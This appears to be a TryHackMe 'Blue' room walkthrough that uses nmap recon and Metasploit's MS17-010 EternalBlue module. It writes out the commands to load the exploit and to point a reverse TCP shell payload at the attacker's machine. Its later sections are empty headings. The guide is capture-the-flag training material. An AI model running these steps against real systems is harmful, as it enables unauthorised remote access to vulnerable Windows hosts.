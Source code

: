 # 🧠 TryHackMe Room: Blue 

**Room URL:** [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)  
**Author:** Schenkee  
**Profile:** [https://tryhackme.com/p/schenkee](https://tryhackme.com/p/schenkee)  

---

## 🧩 Challenge Task Overview

**Objective:**   
This guide will cover the steps required to gain the answer to all question in the Blue room which focuses on the Eternal Blue vulnerability in SMB and is the conclusion to the Metasploit module. 

---

## 🧰 Tools I Used  
- nmap
- Metasploit
- Hashcat

---

Firstly, let’s start our target machine and give it a few minutes to start all relevant services. I am using the TryHackME AttackBox lets start this up as well, or alternatively as in my case connect to the TryHackMe VPN to use your own attacking machine. You can even download the VM for offline usage if required.

---

## 🛠️ Recon: 
First let us start with a straightforward nmap scan to see which ports are open and what possible path we have into the target machine.  

We will run nmap via the following ```sudo nmap -sS TARGET_IP```   
#### ⚙️ **Options**  
**sudo** We need to run this command as a privileged user otherwise it will perform a 3-way-handshake and be a TCP Connect Scan -sT.  
**-sS** Tells Nmap to perform a TCP SYN Scan.  

This should return the below information.  
![Recon - Nmap](./Images/Recon%20-%20Nmap.png)  
This will give us enough information to answer the first question: **How many ports are open with a port number under 1000?**  

Now we can see that port 445 is open which is the default port used for Server Message Block (SMB) protocol. SMB is the protocol which is vulnerable to Eternal Blue in certain windows versions. But let’s run another Nmap scan to see if we cannot find anything further to verify that this port is indeed vulnerable.  

We can run a nmap version scan and default scripts against the target port to see if we can return any further useful information.  

This can be done via ```sudo nmap -sS -sV -sC TARGET_IP -p 445```
#### ⚙️ **Options**  
**sudo** We need to run this command as a privileged user otherwise it will perform a 3-way-handshake and be a TCP Connect Scan -sT.  
**-sS** Tells Nmap to perform a TCP SYN Scan.   
**-sV** Tells Nmap to perform a version scan to detect service versions on each port.  
**-sC** Tells Nmap to perform run default scripts on the target.    
**-p** Tells nmap which port to scan. In this case we only need to scan port 445    

This should result in the below output.  
![Recond - Nmap -sV](./Images/Recon%20-%20Nmap%20-sV.png)  
This has returned some very good information namely the OS details. We can see that the system is running ***Windows 7 Professional 7601 Service Pack 1***

Let’s do a google search for any vulnerabilities which might be affecting smb on ***Windows 7 Professional 7601 Service Pack 1*** and as we might be expected we get some good results back confirming that our target is vulnerable to CVE-2017-0144 Eternal Blue.  
![Recond - Google](./Images/Recon%20-%20Google.png)  
We can also see some results returned on ExploitDB  
![Recond - ExploitDB](./Images/Recon%20-%20ExploitDB.png)  
This provides us the answer to the next and final question for the Recon section: ***What is this machine vulnerable to?***  

This concludes our required Reconnisance for the room and we can now move on to gain access to the target machine.

---

## 🛠️ Gain Access: 
In the Recon section we identified that the target machine is vulnerable to MS17_010 aka EternalBlue. 

So lets start up Metasploit using ```msfconsole```  

Now lets see if there are any relevant modules avaible to us via ```search ms17-010``` this will bring back the below results.  
![Gain Access - search](./Images/Gain%20Access%20-%20search.png)  
In this instance we can use the first result, to load this module type ```use 0```  

This will also now provide us with the answer to our first question in this section: **Find the exploitation code we will run against the machine. What is the full path of the code?**  

Now that we have loaded this module we will need to configure a couple of items. Firstly lets view our options via ```show options```  
![Gain Access - Initial options](./Images/Gain%20Access%20-%20Initial%20options.png)  
The items we will need to change are **RHOSTS**, **LHOST** and the **Payload**  

Do this via the following commands
```set RHOSTS TARGET_IP```
```set LHOST YOUR_MACHINE_IP```
```set payload windows/x64/shell/reverse_tcp```

Now we can view our options again via ```show options``` and confirm our remote and local host IP's are correct and that our payload has been adjusted as required.  
![Gain Access - options final](./Images/Gain%20Access%20-%20options%20final.png)




---

## 🛠️ Escalate: 


---

## 🛠️ Cracking: 


---

## 🛠️ Find flags!: 


---

## 🧠 Takeaways  
 

---

Thank you for following through my guide of the TryHackMe Blue.  
